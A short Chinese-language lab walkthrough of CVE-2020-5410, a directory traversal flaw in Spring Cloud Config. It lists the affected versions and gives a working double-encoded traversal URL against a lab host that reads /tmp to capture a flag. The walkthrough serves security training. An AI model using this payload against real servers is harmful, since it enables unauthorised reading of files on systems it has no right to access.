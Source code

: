 # [Spring Cloud Config 目录穿越漏洞（CVE-2020-5410）by ](./CVE-2020-5410.md)[xiajibaxie](https://github.com/xiajibaxie)

## 漏洞描述

Spring Cloud Config 为分布式系统中的外部配置提供服务器和客户端支持，使用 Config Server ，用户可以在所有环境中管理应用程序的外部属性。近日，百度云安全团队监测到 Spring Cloud Config 官方发布了一个目录遍历漏洞的风险通告，漏洞编号为 CVE-2020-5410 。攻击者可通过构造特殊的 HTTP 请求，从而跨目录读取文件。

## 影响版本

2.2.x<=2.2.2
2.1.x<=2.1.8

## 利用流程

访问地址： `10.10.11.20:32446`

名称：CVE-2020-5410 Spring Cloud Config 目录穿越漏洞



1执行命令查看 tmp 文件获得 flag 

```
http://10.10.11.20:32446/..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252Ftmp%23foo/development
```

![1](./1.jpg)

通关！

## 参考

https://xz.aliyun.com/t/7877
